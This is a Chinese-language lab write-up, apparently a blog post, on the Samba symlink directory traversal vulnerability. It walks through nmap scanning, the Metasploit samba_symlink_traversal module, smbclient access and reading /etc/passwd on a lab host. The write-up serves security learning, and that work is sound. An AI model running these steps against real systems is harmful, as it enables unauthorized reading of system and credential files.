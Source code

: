 ```yaml
---
title: sysmlink漏洞
date: 2021-12-20 16:32:26
tags: sysmlink msf
---
```


## sysmlink 目录遍历漏洞

### 利用sysmlink漏洞读取目标主机的passwd文件内容

#### 原理：Samba是一套实现SMB（server messages block）协议，跨平台进行文件共享和打印共享服务的程序，samba的sambd默认配置在可写文件共享时，存在目录遍历漏洞，远程用户可以通过smbclient端使用一个对称命，创建一个包含..的目录遍历符的软连接 ，可以进行目录遍历以及访问任意文件。

### 过程：

使用`nmap -sV ip` 扫描主机，确认开放`445`，`139`端口且安装了`samba`服务，版本为3

![image-20211220165606561](https://gitee.com/oxchang/img-host/raw/master/sysmlink漏洞/image-20211220165606561.png)

命令行输入`search samba`，搜索samba的相关工具和载荷。

![image-20211220173445099](https://gitee.com/oxchang/img-host/raw/master/sysmlink漏洞/image-20211220173445099.png)

终端中输入`use auxiliary/admin/smb/samba_symlink_traversal`，启用漏洞利用模块

输入`info`，`"yes"`表示必须要填写的信息

![image-20211220173527544](https://gitee.com/oxchang/img-host/raw/master/sysmlink漏洞/image-20211220173527544.png)

输入`set RHOST 192.168.1.3`和`set SMBSHARE tmp`，设置主机ip地址和SAM可写文件

输入exploit开始攻击

![image-20211220173602852](https://gitee.com/oxchang/img-host/raw/master/sysmlink漏洞/image-20211220173602852.png)

新建终端，输入`smbclient //192.168.1.3/tmp`，直接回车，无密码

输入`cd rootfs`,进入rootfs目录，输入ls，列出目录

![image-20211220173635907](https://gitee.com/oxchang/img-host/raw/master/sysmlink漏洞/image-20211220173635907.png)

输入`more /etc/passwd`

![image-20211220173656794](https://gitee.com/oxchang/img-host/raw/master/sysmlink漏洞/image-20211220173656794-16399930170041.png)

此实验完成
